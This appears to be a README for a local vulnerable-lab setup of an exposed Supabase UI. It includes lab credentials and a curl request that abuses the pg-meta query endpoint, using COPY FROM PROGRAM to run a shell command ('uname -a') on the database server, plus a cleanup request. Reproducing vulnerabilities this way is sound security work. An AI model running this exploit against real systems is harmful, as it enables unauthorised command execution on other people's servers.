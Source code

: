 # Start Vulnerable instance
```bash
bash start.sh
```
# Access the exposed UI
Open your browser and navigate to `http://localhost:8001` to access the Supabase Exposed UI. Open `http://localhost:8000` to access the Supabase UI, username is `supabase` and password is `this_password_is_insecure_and_should_be_updated`
# Use the following command to run the exploit
```bash
curl 'http://127.0.0.1:8001/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  --data-raw $'{"query":"CREATE TABLE filelist (filename text);\\nCOPY filelist FROM PROGRAM \'uname -a\';\\nSELECT * FROM filelist;","disable_statement_timeout":true}'

# cleanup
curl 'http://127.0.0.1:8001/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  --data-raw $'{"query":"drop table filelist","disable_statement_timeout":true}'
```
